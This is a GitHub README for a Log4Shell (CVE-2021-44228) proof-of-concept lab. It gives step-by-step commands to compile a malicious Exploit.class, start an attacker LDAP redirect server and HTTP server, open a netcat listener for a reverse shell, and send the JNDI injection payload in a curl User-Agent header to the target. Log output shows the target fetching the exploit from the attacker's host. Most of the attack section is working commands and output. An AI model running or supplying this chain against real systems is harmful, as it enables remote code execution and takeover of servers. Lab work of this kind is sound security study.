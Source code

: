 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- Kali Linux
- Ubuntu Server

# Kali Linux
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```
cd attacker/exploit && sudo nano Exploit.java
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```
sudo apt update && sudo apt upgrade -y
```
```
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```
mkdir log4j && cd log4j

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar
wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar
```

To run the Application just run 
```
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)
[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
